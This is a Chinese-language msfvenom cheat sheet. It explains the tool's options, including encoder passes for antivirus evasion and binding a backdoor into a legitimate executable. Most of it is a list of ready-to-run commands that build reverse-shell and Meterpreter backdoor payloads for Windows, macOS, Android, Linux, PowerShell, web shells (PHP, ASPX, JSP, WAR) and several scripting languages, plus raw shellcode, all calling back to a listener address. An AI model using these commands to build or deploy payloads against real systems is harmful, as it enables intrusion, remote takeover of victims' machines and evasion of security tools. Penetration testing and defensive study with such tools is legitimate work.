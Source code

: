 Kali中的 msfvenom 取代了msfpayload和msfencode，常用于生成后门木马

msfpayload是MSF攻击荷载生成器，用于生成shellcode和可执行代码。
msfencode是MSF编码器。

---

一 、msfvenom 常用参数

-l
列出指定模块的所有可用资源,模块类型包括: payloads, encoders, nops, all

-p
指定需要使用的payload(攻击荷载)。

-f
指定输出格式

Executable formats:Asp、aspx、aspx-exe、axis2、dll、elf、elf-so、exe、exe-only、exe-service、exe-smallhta-psh、jar、jsp、loop-vbs、macho、msi、msi-nouac、osx-app、psh、psh-cmd、psh-net、psh-reflection、python-reflection、vba、vba-exe、vba-psh、vbs、war；

Transform formats:base32、base64、bash、c、csharp、dw、dword、hex、java、js_be、js_le、num、perl、pl、powershell、ps1、py、python、raw、rb、ruby、sh、vbapplication、vbscript；

-e
指定需要使用的encoder（编码器）编码免杀。

-a
指定payload的目标架构

选择架构平台:x86 | x64 | x86_64
Platforms:windows, netware, android, java, ruby, linux, cisco, solaris, osx, bsd, openbsd, bsdi, netbsd, freebsd, aix, hpux, irix, unix, php, javascript, python, nodejs, firefox, mainframe

-o
保存payload文件输出。

-b
设定规避字符集，比如: '\x00\xff'避免使用的字符

-n
为payload预先指定一个NOP滑动长度

-s
设定有效攻击荷载的最大长度生成payload的最大长度，就是文件大小。

-i
指定payload的编码次数

-c
指定一个附加的win32 shellcode文件

-x
指定一个自定义的可执行文件作为模板
例如：原先有个正常文件normal.exe 可以通过这个选项把后门捆绑到这个程序上面。

-k
保护模板程序的动作，注入的payload作为一个新的进程运行
例如：原先有个正常文件normal.exe 可以通过这个选项把后门捆绑到这个程序上面。

-v
指定一个自定义的变量，以确定输出格式

---

二、各平台生成payload命令

---

Windows

msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.3.33 LPORT=4444 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 10  -f exe -o payload.exe

---

Mac

msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=192.168.3.33 LPORT=4444 -f macho -o payload.macho

---

Android

msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4567  -o payload.apk



---

Powershell

msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=192.168.1.1 LPORT=8888 -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1

---

Linux

msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f elf -o payload.elf

---

php

msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.1  LPORT=8888  -f raw > shell.php



---

aspx

msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=8888 -f aspx -o payload.aspx

---

JSP

msfvenom --platform java -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1  LPORT=4567 -f raw -o payload.jsp

---

war

msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f raw - o payload.war

---

nodejs

msfvenom -p nodejs/shell_reverse_tcp LHOST=192.168.1.1  LPORT=4567 -f raw -o payload.js

---

python

msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.1  LPORT=4567 -f raw -o payload.py

---

perl

msfvenom -p cmd/unix/reverse_perl LHOST=192.168.1.1  LPORT=4567 -f raw -o payload.pl

---

ruby

msfvenom -p ruby/shell_reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f raw -o payload.rb

---

lua

msfvenom -p cmd/unix/reverse_lua LHOST=192.168.1.1 LPORT=4567 -f raw -o payload.lua

---

windows shellcode

msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f c

---

linux shellcode

msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f c

---

mac shellcode

msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp  LHOST=192.168.1.1  LPORT=4567 -f c

---